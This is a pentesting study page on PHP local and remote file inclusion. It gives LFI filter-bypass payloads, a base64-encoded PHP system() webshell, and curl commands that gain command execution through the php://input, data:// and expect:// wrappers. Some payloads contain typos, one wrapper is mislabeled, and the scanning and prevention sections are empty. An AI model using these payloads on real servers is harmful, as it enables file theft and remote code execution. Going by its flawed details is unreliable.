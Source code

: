 Navigation: [[Pentesting]]

---
# Table of Contents
1. Introduction
2. Local File Inclusion
3. Finding RCE
4. Remote File Inclusion
5. Automated Scanning
6. Prevention
# Introduction
Lots of backend languages use HTTP parameters to specify what's being shown on the page. This allows for building more dynamic pages, reduces script sizes, and simplifies code.

However, these parameters need to be filtered properly, otherwise they can lead to file inclusion vulnerabilities. This allows an attacker to read or execute files on the server by bypassing filters.

There are two types of file inclusion: local and remote. These names are specified by where the files are contained: local being on the server, and remote being remotely referenced scripts.
# Local File Inclusion
Let's start with an example. Take a look at this URI:
```http
http://<IP>:<PORT>/index.php?lang=es.php
```

From what we can see, we're loading the page `es.php` from our server. If there were no filters, we can change `es.php` to `/etc/shadow` and display that. We're also free to traverse paths if it isn't blocked by the filter.
### Common Filters
**Filename Prefix**
The PHP code would look like this:
```php
include("lang_" . $_GET['language']);
```

Meaning we'd be accessing:
```http
/lang_esp.php
```

Regardless, we'll just include this as a prefix:
```http
/lang_/etc/password
```

**Non-Recursive Path Traversal**
Code:
```PHP
$language = str_replace('../', '', $_GET['language']);
```

Exploit:
```shell
....//
# Server recognizes this as ../
```

**Special Character Filter**
Some web filters remove special characters. We can bypass this using URL encoding.

**Appended Extension**
Some filters require an extension at the end of our files, such as `.php`. There are two bypasses for this:

Path truncation, where we can just extend our path beyond the maximum checked length. Older versions of PHP have a 4096 character path limit, so we can simply have:
```shell
/etc/passwd/././././././././././... # Repeated to 4096 chars
```

With null byte injection, PHP would terminate a string after a null byte. Therefore our payload can look like:
```shell
/etc/passd%00.php
```
# Finding RCE
### PHP Wrappers
We can check the PHP config file found at `/etc/php/X.Y/apache2/php.ini`. Search for a `base64` string and decode it, this contains our configs. 

We'll need `allow_url_include = On` to be enabled for RCE through the data and input wrappers. The expect wrapper relies on `extension=expect` to be set.

**Data Wrapper**
Used to allow external data including PHP code. It can also be passed `base64` code with `text/plain'base64`, and can decode then execute the PHP code. 

Here's a simple way we can send a payload:
```http
data://text/plain;base64, <PHP webshell> &cmd<cmd>
```

Here's the web shell used:
```shell
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

**Input Wrapper**
Similar to the data wrapper, just we POST the data:
```shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

**Include Wrapper**
Allows commands to directly be run through URL streams. It's an external wrapper, so it needs to be manually installed and enabled. 

Example usage:
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
# Remote File Inclusion
With RFI, we're essentially just going to host a file server and have the web server grab a file off of us. Nothing else to really include here. You might have to play around with the protocol though.
# Automated Scanning
# Prevention


---
Navigation: [[Pentesting]]